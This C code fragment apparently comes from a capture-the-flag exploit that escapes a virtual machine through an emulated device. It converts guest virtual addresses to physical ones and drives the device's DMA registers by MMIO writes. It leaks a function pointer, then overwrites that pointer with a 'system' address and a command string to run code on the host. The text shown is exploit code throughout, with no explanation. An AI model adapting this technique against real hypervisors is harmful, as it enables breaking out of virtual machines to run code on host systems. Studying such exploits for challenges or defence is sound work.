 ```c
		return 0;
	}

	if(!(data & (((uint64_t)1 << 63)))){
		puts("page");
		close(fd);
		return 0;
	}

	size_t pageframenum = data & ((1ull << 55) - 1);
	size_t phyaddr = pageframenum * pagesize + (uintptr_t)addr % pagesize;

	close(fd);

	return phyaddr;
}

void write_src(uint32_t src){
	mmio_write(0x80,src);
}

void write_dst(uint32_t dst){
	mmio_write(0x88,dst);
}

void write_cnt(uint32_t cnt){
	mmio_write(0x90,cnt);
}

void write_cmd(uint32_t cmd){
	mmio_write(0x98,cmd);
}

void read_enc_addr(){
	write_dst(userbuf_pa);
	write_src(0x41000);
	write_cnt(8);
	write_cmd(3);
	sleep(1);
}

void write_system_addr(void *buf, size_t len){
    assert(len<0x1000);

    memcpy(userbuf,buf,len);

    write_dst(0x41000);
	write_src(userbuf_pa);
    write_cnt(len);
    write_cmd(1);

    sleep(1);
}

void write_cat_addr(void *buf,size_t len){
	assert(len<0x1000);

    memcpy(userbuf,buf,len);

    write_dst(0x40100);
	write_src(userbuf_pa);
    write_cnt(len);
    write_cmd(1);
```